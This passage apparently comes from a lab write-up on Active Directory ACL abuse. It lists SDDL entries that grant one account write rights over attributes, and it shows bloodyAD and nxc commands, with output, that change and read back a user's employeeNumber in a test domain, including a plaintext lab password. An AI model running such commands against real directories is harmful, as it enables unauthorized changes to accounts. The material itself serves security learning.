  OA;CI;RPWP;c5d234e5-644a-4403-a665-e26e0aef5e98;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;011929e6-8b5d-4258-b64a-00b0b4949747;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679e8-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;8a5c99e9-2230-46eb-b8e8-e59d712eb9ee;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;031952ec-3b72-11d2-90cc-00c04fd91ab1;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;f217e4ec-0836-4b90-88af-2f5d4bbda2bc;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;be9ef6ee-cbc7-4f22-b27b-96967e7ee585;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a8df73ef-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;1e02d2ef-44ad-46b2-a67d-9fd18d780bca;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;5d3510f0-c4e7-4122-b91f-a20add90e246;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;a8df73f0-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;def449f1-fd3b-4045-98cf-d9658da788b5;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679f1-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679f2-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;fa06d1f4-7922-4aad-b79c-b2201f54417c;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;855f2ef5-a1c5-4cc4-ba6d-32522848b61f;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;70004ef5-25c3-446a-97c8-996ae8566776;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;34f6bdf5-2e79-4c3b-8e14-3d93b75aab89;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;037088f8-0ae1-11d2-b422-00a0c968f939;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;c7e7dafa-10c3-4b8b-9acd-54f11063742e;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679fb-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679fc-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;bf9679fd-0de6-11d0-a285-00aa003049e2;;S-1-5-21-2539905369-2457893589-779357875-1447
  OA;CI;RPWP;aa1c88fd-b0f6-429f-b2ca-9d902266e808;;S-1-5-21-2539905369-2457893589-779357875-1447
```

Grabbing a random SDDL GUID from th4' list, say `a8df73ef-c5ea-11d1-bbcb-0080c76670c0`, is associated with the lDAPDsplayName `employeeNumber` (as per `ADAttributeGUIDs.csv`), hence writable :D

```powershell
jamarir@kali:~$ bloodyAD --dns 192.168.56.202 --dc-ip 192.168.56.202 --host 'dc02.jamad.local' -d 'jamad.local' -u 'aator' -p 'AA_P@ssw0rd123!' set object 'jdoe' 'employeeNumber' -v 'Y4Sp3c14l?!'
[+] jdoe's employeeNumber has been updated
```

```powershell
jamarir@kali:~$ nxc ldap 192.168.56.202 -d 'jamad.local' -u 'aator' -p 'AA_P@ssw0rd123!' --query '(&(objectClass=person)(objectCategory=user)(sAMAccountName=jdoe))' 'employeeNumber'
LDAP        192.168.56.202  389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:JAMAD.LOCAL)
LDAP        192.168.56.202  389    DC02             [+] jamad.local\aator:AA_P@ssw0rd123!
LDAP        192.168.56.202  389    DC02             [+] Response for object: CN=John JD. DOE,CN=Users,DC=JAMAD,DC=LOCAL
LDAP        192.168.56.202  389    DC02             employeeNumber       Y4Sp3c14l?!
```

> As a side note, notice that the `employeeNumber` attribute isn't populated by default for new AD objects. Therefore, in this particular case, we created that LDAP Attribute for `jdoe`.

